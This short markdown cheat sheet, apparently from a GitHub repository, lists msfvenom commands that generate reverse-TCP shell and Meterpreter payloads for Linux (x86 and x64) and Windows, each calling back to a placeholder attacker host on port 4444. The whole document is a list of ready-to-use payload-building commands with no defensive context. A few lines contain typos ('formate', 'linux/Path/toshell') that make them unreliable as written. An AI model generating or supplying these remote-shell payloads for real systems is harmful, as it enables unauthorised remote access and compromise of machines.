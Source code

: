 # MsfVenom shell generator

## Linux 

### NON-Staged 
``
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=4444 -f elf >reversetcp.elf
``
``
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=4444 -f elf >reversetcp.elf
``
``
msfvenom -p linux/Path/toshell LHOST=IP LPORT=4444 -f elf >reversetcp.elf
``
### Staged 
``
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f elf >reversetcp.elf
``
``
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f elf >reversetcp.elf
``

## Windows

### NON-Staged
``
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4444 -f formate > reversetcp.format
``
### Staged
``
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f formate > reversetcp.format
``
